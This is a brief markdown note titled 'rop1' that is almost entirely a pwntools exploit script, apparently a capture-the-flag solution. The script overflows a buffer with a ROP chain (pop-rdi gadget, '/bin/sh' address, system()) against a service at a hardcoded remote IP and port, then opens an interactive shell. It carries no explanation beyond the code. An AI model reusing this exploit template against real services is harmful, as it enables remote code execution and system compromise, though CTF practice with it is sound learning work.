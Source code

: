 # rop1
```python
from pwn import *
sh_addr=0x601070
sys_addr=0x400630
rdi_addr=0x4008e3
pay='a'*(0x4+8)+p64(rdi_addr)+p64(sh_addr)+p64(sys_addr)
#p=process('./rop1')
p=remote('129.211.58.26',10001)
p.sendline(pay)
p.interactive()
```

# 
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE4Mjk5NzIzMjYsODA3Njk3MDgzXX0=
-->